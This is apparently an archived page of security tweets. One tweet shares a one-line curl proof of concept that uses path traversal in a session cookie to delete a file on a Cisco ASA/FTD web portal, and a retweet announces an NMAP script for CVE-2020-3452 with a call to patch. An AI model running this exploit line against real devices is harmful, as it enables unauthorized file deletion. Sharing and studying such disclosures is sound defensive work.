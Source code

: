 Example to delete logo file "/+CSCOU+/csco_logo.gif".

POC:
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://target/+CSCOE+/session_password.html https://t.co/BFbDAI9mX2
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+ext_tw_video_thumb+1286808440271183873+pu+img+wON6-CmjXzgS8AfM.jpg" alt="http://pbs.twimg.com/ext_tw_video_thumb/1286808440271183873/pu/img/wON6-CmjXzgS8AfM.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>892</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1286574848374906881 _at 2020-07-24 08:12:01_**
<blockquote>
RT @Cognosec: Our researcher wrote a NMAP script for CVE-2020-3452. Patch your Cisco (ASA/FTD) ASAP.
https://t.co/HO1r1QvW8F
#infosec #cisc…
</blockquote>
